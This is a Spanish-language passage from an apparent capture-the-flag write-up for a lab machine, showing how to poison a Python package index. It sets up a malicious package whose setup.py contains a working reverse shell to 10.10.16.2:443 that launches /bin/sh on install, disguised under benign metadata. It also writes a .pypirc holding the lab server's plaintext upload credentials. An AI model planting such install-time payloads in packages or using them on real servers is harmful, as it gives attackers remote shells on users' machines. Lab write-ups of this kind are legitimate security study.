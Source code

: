 Entonces procederemos a crear una estructura similar en nuestra maquina en este caso pondre de nombre a los directorios como `package`


```bash
❯ ls
 package   setup.cfg   setup.py
❯ tree
.
├── package
│   ├── __init__.py
│   └── package
├── setup.cfg
└── setup.py

2 directories, 3 files
```

Lo siguiente sera editar el `setup.py`, donde ademas añadiremos un codigo para ejecutarnos una `reverse shell` que se ejecutara cuando se inicie el `setup.py`

```python
from setuptools import setup

import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.2",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

setup(
    name='linode_example',
    #packages=['linode_example'],
    description='Hello world enterprise edition',
    version='0.1',
    url='http://github.com/example/linode_example',
    author='Linode',
    author_email='docs@linode.com',
    keywords=['pip','linode','example']
    )
```

Comentar o borrar la linea de `packages=['linode_example']` ya que suele dar problema.


Ahora lo que tenemos que hacer es que el servidor de la maquina victima al momento de instalar el paquete me ejecute la `reverse shell` y eso lo hariamos creando un archivo `.pypirc` donde definamos cual es el repositorio al cual te quieras conectar y las credenciales de autenticación que de antes la tenemos.


```bash
❯ /bin/cat ~/.pypirc
[distutils]
index-servers = sneakypwned
[sneakypwned]
repository: http://pypi.sneakycorp.htb:8080/
username: pypi
password: soufianeelhaoui
```
